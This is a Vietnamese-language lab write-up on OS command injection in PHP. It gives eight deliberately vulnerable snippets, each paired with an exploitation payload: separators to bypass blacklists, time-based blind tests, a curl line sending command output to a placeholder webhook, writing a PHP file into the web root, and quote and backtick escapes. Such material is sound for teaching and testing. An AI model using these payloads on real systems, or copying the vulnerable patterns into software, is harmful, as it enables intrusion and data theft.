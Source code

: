 ### Example 1

```
$command = $_POST['command'];
$target = $_POST['target'];
switch($command) {
  case "ping":
    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
...
```

Giá trị nhập vào không hề được validate mà được đưa trực tiếp vào hàm shell_exec() để thực thi. Khai thác:

`8.8.8.8 ; ls -la`

Sử dụng `;` để kết thúc câu OS command đầu tiên, và đưa câu OS command muốn thực thi vào.

### Example 2

```
$command = $_POST['command'];
$target = $_POST['target'];
if (strpos($target, ";") !== false) 
    die("detected!");
switch($command) {
  case "ping":
    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
```

Lần này chương trình filter dấu `;`, ngăn chặn việc chèn câu lệnh không mong muốn.

Ta có toán tử `&&` sẽ có cùng chức năng với `;`. Cách khai thác: `8.8.8.8 && ls`.

### Example 3

```
$command = $_POST['command'];
$target = $_POST['target'];
if (strpos($target, ";") !== false) 
    die("detected!");
if (strpos($target, "&") !== false) 
    die("detected!");
if (strpos($target, "|") !== false) 
    die("detected!");
```

Nâng cao hơn danh sách blacklish lần này bao gồm `; & | `. Có thể dùng kí tự xuống dòng trong linux để kết thúc câu OS command thứ nhất, URL encode của ký tự xuống dòng là %0A.

Cách khai thác: `8.8.8.8 %0A ls`.

### Example 4

```
$target = $_POST['target'];
switch($command) {
  case "backup":
    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
    if ($result !== null && strpos($result, "zip error") === false)
        die("Backup thành công");
    else
        die("Backup không thành công");
```

Ở ví dụ này, result không được in ra mà thay vào đó chỉ in ra thông báo backup thành cồn hay không thôi, vậy để biết liệu chương trình có thực thi OS command không thì gán $target = `; sleep 5;`.

Gửi response của câu OS command ra bên ngoài. Dùng tính năng data-binary của curl để bắn đi kết quả của một câu OS command qua webhook.

Payload: `; ls | curl <webhook> --data-binary @-;`.

### Example 5

Tương tự ex trước đó nhưng lần này chương trình được cấu hình không thể truy cập internet, vì vậy không thể gửi respond ra internet được.

Cách khai thác: `; echo '<?php phpinfo(); ?>' > /var/www/html/test.php ;`

### Example 6, 7

Có thể thao túng giá trị trả về bởi câu lệnh if. payload `q /etc/passwd;if [ "$(cat /* | cut -c 1)" = "C" ]; then sleep 5; fi #`

### Example 8

```
$input = addslashes($input);
$username = $input;

$cowsay = <<<EOF
echo 'Hello $username' | cowsay -f eyes -n
EOF;

passthru($cowsay);

```

Biến $username được chèn dấu backlash trước khi thực hiện các câu lệnh tiếp theo. 

Khai thác: `'; ls #`. 

Trường hợp: `echo 'Hello $username' | cowsay -n ; figlet "Hello $username"`

Khai thác dựa trên dấu "", chương trình không filter dấu backtick --> ``.







